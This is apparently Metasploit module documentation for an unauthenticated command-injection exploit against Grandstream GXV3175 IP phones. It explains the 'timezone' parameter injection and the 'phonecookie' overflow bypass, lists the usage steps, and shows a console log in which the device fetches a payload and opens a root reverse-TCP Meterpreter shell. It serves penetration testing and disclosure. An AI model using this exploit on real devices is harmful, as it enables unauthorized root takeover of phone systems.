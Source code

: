 ## Vulnerable Application

This module exploits a command injection vulnerability in Grandstream GXV3175
IP multimedia phones. The 'settimezone' action does not validate input in the
'timezone' parameter allowing injection of arbitrary commands.

A buffer overflow in the 'phonecookie' cookie parsing allows authentication
to be bypassed by providing an alphanumeric cookie 93 characters in length.

This module was tested successfully on Grandstream GXV3175v2
hardware revision V2.6A with firmware version 1.0.1.19.

## Verification Steps

1. `msfconsole`
1. `use exploit/linux/http/grandstream_gxv3175_settimezone_unauth_cmd_exec`
1. `set rhosts [IP]`
1. `set lhost [IP]`
1. `run`
1. You should get a session

## Options


## Scenarios

```
msf6 > use exploit/linux/http/grandstream_gxv3175_settimezone_unauth_cmd_exec 
[*] Using configured payload linux/armle/meterpreter_reverse_tcp
msf6 exploit(linux/http/grandstream_gxv3175_settimezone_unauth_cmd_exec) > set rhosts 10.1.1.109
rhosts => 10.1.1.109
msf6 exploit(linux/http/grandstream_gxv3175_settimezone_unauth_cmd_exec) > set lhost 10.1.1.110 
lhost => 10.1.1.110
msf6 exploit(linux/http/grandstream_gxv3175_settimezone_unauth_cmd_exec) > run

[*] Started reverse TCP handler on 10.1.1.110:4444 
[*] Using URL: http://0.0.0.0:8080/JF62dexHKN8b
[*] Local IP: http://10.1.1.110:8080/JF62dexHKN8b
[*] Client 10.1.1.109 (Wget/1.10.1) requested /JF62dexHKN8b
[*] Sending payload to 10.1.1.109 (Wget/1.10.1)
[*] Command Stager progress - 100.00% done (115/115 bytes)
[*] Meterpreter session 1 opened (10.1.1.110:4444 -> 10.1.1.109:39371 ) at 2022-01-08 13:27:44 -0500

meterpreter > getuid
Server username: root
meterpreter > sysinfo 
Computer     : 10.1.1.109
OS           :  (Linux 2.6.32_gxv3170v2)
Architecture : armv7l
BuildTuple   : armv5l-linux-musleabi
Meterpreter  : armle/linux
meterpreter >
```
